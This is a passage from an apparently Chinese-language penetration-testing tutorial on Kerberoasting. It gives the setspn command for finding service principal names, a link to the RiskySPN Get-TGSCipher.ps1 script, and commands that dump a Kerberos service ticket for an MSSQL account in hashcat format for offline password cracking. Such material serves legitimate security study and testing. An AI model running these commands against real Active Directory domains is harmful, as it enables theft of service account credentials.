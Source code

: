 也可以使用`setspn -T ignite -Q */*`来发现

[![](assets/1708919803-6b7151dfcdcc96d05dfe3d8dd4c5b366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142048-db559f5a-ce25-1.png)

#### 提取并转储 TGS\_ticket 并获取哈希值

我们使用 `TGSipher.ps1` 来提取 `KRB_TGS`，下载地址如下

```plain
https://github.com/cyberark/RiskySPN/blob/master/Get-TGSCipher.ps1
```

获取 `TGS` 并将结果转换为 `hashcat` 格式

```plain
Import-Module .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "MSSQLSvc/win7.rootkit.org:1433" -Format hashcat
```
